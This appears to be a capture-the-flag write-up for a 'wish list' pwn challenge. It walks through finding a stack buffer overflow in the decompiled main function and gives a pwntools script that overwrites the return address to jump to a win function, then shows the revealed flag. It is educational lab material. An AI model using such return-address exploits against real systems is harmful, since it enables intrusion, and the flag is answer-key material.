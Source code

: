 
# CTF

What is on your wish list this year? Be sure to tell Santa in great detail. He might have an early present or two in store for you!

`nc ctf.csd.lol 4003`

# Solution

Let's connect using netcat:

```
jstr$ nc ctf.csd.lol 4003
enter your wish:
test
hmm ... I'm not sure I can grant that
maybe try again next year.
[DEBUG] returning to address: 0x7743af6ca1ca
```


Since we have the program locally, we can see the list of functions using `gdb` , so let's run it

```
jstr$ db ./main
GNU gdb (Debian 15.2-1) 15.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./main...
(No debugging symbols found in ./main)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010a0  puts@plt
0x00000000004010b0  write@plt
0x00000000004010c0  printf@plt
0x00000000004010d0  read@plt
0x00000000004010e0  fflush@plt
0x00000000004010f0  open@plt
0x0000000000401100  exit@plt
0x0000000000401110  _start
0x0000000000401140  _dl_relocate_static_pie
0x0000000000401150  deregister_tm_clones
0x0000000000401180  register_tm_clones
0x00000000004011c0  __do_global_dtors_aux
0x00000000004011f0  frame_dummy
0x00000000004011f6  win
0x0000000000401397  main
0x000000000040149c  _fini
```

We can also look at the decompiled code using [dogbolt](https://dogbolt.org) (thank you dogbolt for existing) and get the `win` and `main` parts of the code.

```c++
void __noreturn win()
{
  __int64 buf[33]; // [rsp+0h] [rbp-110h] BYREF
  int v1; // [rsp+108h] [rbp-8h]
  int fd; // [rsp+10Ch] [rbp-4h]

  fd = open("flag.txt", 0);
  memset(buf, 0, 256);
  v1 = read(fd, buf, 0x100uLL);
  write(1, buf, v1);
  exit(0);
}
// 4011F6: using guessed type void __noreturn win();

//----- (0000000000401397) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 buf[12]; // [rsp+0h] [rbp-70h] BYREF
  int v5; // [rsp+60h] [rbp-10h]
  int v6; // [rsp+6Ch] [rbp-4h]
  const void *retaddr; // [rsp+78h] [rbp+8h]

  puts("enter your wish:");
  fflush(_bss_start);
  memset(buf, 0, sizeof(buf));
  v5 = 0;
  v6 = read(0, buf, 0x100uLL);
  *((_BYTE *)buf + v6) = 0;
  puts("hmm ... I'm not sure I can grant that");
  puts("maybe try again next year.");
  printf("[DEBUG] returning to address: %p\n", retaddr);
  fflush(_bss_start);
  return 0;
}

//----- (000000000040149C) ----------------------------------------------------
void term_proc()
{
  ;
}

// nfuncs=34 queued=18 decompiled=18 lumina nreq=0 worse=0 better=0
// ALL OK, 18 function(s) have been successfully decompiled
```

In the `main` function, we can see:
``` c++
__int64 buf[12]; // [rsp+0h] [rbp-70h] BYREF
```

the `buf` has a limit to 12 integers which is 96 bytes (`12 * 8 = 96`).

In the same function, we can see:

``` c++
v6 = read(0, buf, 0x100uLL);
```

this input doesn't limit the size like `buf`, since it allows 256 bytes of data. This means that if we input more than 96 bytes, which the input does allow us to do, we can buffer overflow.

Since we have the information above and we also know that win is located at `0x4011F6` , we can write an exploit. The goal of the exploit would be to replace the return address with this address, so when the `main` function attempts to return, it jumps to `win` instead.


This is the exploit:

```python
from pwn import *
p = remote('ctf.csd.lol', 4003)

offset = 120  

win_address = p64(0x4011f6)

payload = b"A" * offset
payload += win_address

p.sendline(payload)

p.interactive()

```

the exploit overflows the `buf` in the `main` function, which overwrites the return address with the address of the `win`. this triggers the `win` function and it executes the flag.

let's run it:

```
jstr$ python exploit.py
[+] Opening connection to ctf.csd.lol on port 4003: Done
[*] Switching to interactive mode
enter your wish:
hmm ... I'm not sure I can grant that
maybe try again next year.
[DEBUG] returning to address: 0x4011f6
csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}
[*] Got EOF while reading in interactive
```

flag; `csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}`
